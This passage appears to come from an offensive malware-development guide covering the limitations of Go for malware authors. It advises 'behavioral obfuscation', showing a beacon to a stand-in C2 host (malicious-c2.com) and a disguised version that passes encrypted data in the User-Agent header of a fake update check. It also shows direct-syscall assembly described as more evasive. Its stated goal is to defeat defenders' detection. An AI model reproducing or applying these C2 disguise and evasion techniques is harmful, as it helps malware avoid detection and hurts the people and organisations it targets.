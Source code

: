 **What This Means:**

Defenders can more easily:

- Identify malicious behavior patterns
- Extract IOCs (strings, IPs, domains)
- Understand program logic
- Create detection signatures

**Mitigation:**

Focus on **behavioral obfuscation** rather than just code obfuscation:

```go
// Bad: Obvious C2 communication
func beacon() {
    http.Get("http://malicious-c2.com/beacon")
}

// Better: Obfuscated, legitimate-looking
func updateCheck() {
    // Use legitimate-looking domain
    // Encrypt data in user-agent
    // Mimic normal software update check
    req, _ := http.NewRequest("GET", decodeURL(), nil)
    req.Header.Set("User-Agent", encryptedData)
    client.Do(req)
}
```

### **Limitation 5: Import Restrictions for Low-Level Operations**

**The Problem:**

Some advanced techniques **require C/C++ or assembly**, which complicates Go.

```
LIMITATIONS IN PURE GO:

Cannot Easily Do:
✗ Direct hardware access
✗ Custom calling conventions
✗ Inline assembly (limited)
✗ Precise memory control
✗ Some kernel interactions

Workarounds:
1. CGO (C integration) - adds complexity, breaks static compilation
2. Assembly files (.s) - limited, architecture-specific
3. Syscall package - covers many cases but not all
```

**Example - Direct Syscalls:**

```go
// Go syscall package - high level
syscall.Syscall(procVirtualAlloc.Addr(), ...)

// vs

// Assembly for direct syscall (more evasive)
// syscall_windows_amd64.s
TEXT ·NtAllocateVirtualMemory(SB), $0-48
    MOVQ    handle+0(FP), CX
    MOVQ    baseAddress+8(FP), DX
    MOVQ    regionSize+16(FP), R8
    // ... syscall number in RAX
    SYSCALL
```